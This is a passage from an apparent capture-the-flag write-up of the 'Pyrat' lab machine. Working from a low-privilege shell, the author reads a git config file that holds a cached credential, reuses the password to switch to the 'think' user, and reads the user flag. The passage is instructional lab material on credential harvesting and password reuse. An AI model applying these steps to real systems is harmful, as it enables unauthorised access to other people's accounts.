 Upon checking the .git contents, we find a ``config`` file that, to my surprise, reveals a password for the ``think`` user

```bash
www-data@Pyrat:/opt/dev/.git$ ls -la
ls -la
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
www-data@Pyrat:/opt/dev/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = ****[REDACTED]****

```

So... will it work for switching to `think` user? Let's try if that user has a reused password.

```bash
www-data@Pyrat:/opt/dev/.git$ su - think
su - think
Password:

think@Pyrat:~$ whoami
whoami
think
think@Pyrat:~$ cat user.txt
cat user.txt
9******************************5
```
